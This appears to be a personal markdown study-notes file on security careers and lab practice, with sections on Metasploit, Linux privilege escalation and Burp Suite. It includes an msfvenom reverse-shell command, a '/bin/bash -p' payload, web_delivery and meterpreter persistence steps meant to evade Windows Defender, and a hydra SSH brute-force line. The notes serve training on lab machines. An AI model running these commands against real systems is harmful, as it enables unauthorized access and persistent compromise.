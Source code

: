 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

generate a payload using msfvenom callnig /bin/bash:

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

* set target
* https://github.com/nobodyatall648/CVE-2019-1388
* A simple reverse HTTP payload.
  * 'set payload windows/meterpreter/reverse_http'.
* Following this, launch the attack as a job with the command 'run -j'.
  * jobs
  * jobs -i 0
  * paste the command output by Metasploit
* https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/
* run persistence -X

<hr class="sep-both">

## Learn again

* https://www.kali.org/tools/hashid/
* https://github.com/t0thkr1s/gtfo
* https://vulners.com/ -> https://vulners.com/cve/CVE-2016-1531
* WTF (strace) https://jvns.ca/strace-zine-v3.pdf
* no_root_squash: if a root user (client) is dumping a file on the server, then they will be created as "root": https://en.wikipedia.org/wiki/Unix_security#Root_squash
* https://github.com/mzet-/linux-exploit-suggester
* https://github.com/diego-treitos/linux-smart-enumeration (lse)
* https://0xsanz.medium.com/70-ways-to-get-root-linux-privilege-escalation-d98ec78f1405 (do not seem really "useful")
* ".old" as backups
* unexpected folders in "/"
* hydra -l username -P rockyou.txt ssh://{target ip}
  * try to bruteforce ssh password
  * ssh xxx@yyy -T -L xxx:domain:xxx: create a tunnel mapping one port to another, need more research.
* Nessus policies
  * if you have a scope/knowledge of specific ports/app (dig)
  * Discovery (all ports for instance)
  * Credentials tabs
* we may try to find urls with ".bak" files, like backup of scripts...

* Must read again
  * https://tryhackme.com/room/blue
  * https://tryhackme.com/room/ice
  * https://tryhackme.com/room/linuxstrengthtraining
  * https://tryhackme.com/room/blaster
  * https://tryhackme.com/room/kenobi

* Random: https://www.thewindowsclub.com/how-to-create-a-virtualbox-shared-folder-in-windows

<hr class="sl">

## ...

URL

* Scheme: (protocol) HTTP/HTTPS/...
* Username:Password@Domain:port/Path?query#Fragment
* Methods GET, DELETE...
* Headers
  * Server: some server
  * Set-cookie: ... => server send the cookie in every request
  * ...
* Response code

---

First, let's navigate to AttackerKB! For our purposes, think of AttackerKB as similar to Exploit-DB but with a higher degree of information surrounding vulnerabilities and the exploits therein associated with them. 

* read comments
* links to metasploit
* https://github.com/horshark/akb-explorer
* ...

We previously had to add the hostname to the /etc/hosts file because of this. SSL true. Metasploit. The hostname was found in the certificate.

* Command shell session 1 opened
  * If it shows that, you can write commands, that just no a meterpreter
  * use "background"
  * `sessions -u -1`
  * go to your new nice meterpreter session
  * https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html
  * `sessions -k 3`
  
<hr class="sep-both">

## Burp

Burp Suite is also very commonly used when assessing mobile applications, as the same features which make it so attractive for web app testing translate almost perfectly into testing the APIs (Application Programming Interfaces) powering most mobile apps.

* Proxy: intercept, and modify request
* Repeater: intercept, modify, and resend multiple times
* Intruder: try to bruteforce entrypoint/forms/...
* Decoder: decode something, or encode a payload
* Comparer: compare data
* Sequencer: check algorithm generating tokens/...

```
Ctrl + Shift + D Switch to the Dashboard
Ctrl + Shift + T Switch to the Target tab
Ctrl + Shift + P Switch to the Proxy tab
Ctrl + Shift + I Switch to the Intruder tab
Ctrl + Shift + R Switch to the Repeater tab
```

* Project options (only one project)
* Users options (application-wise)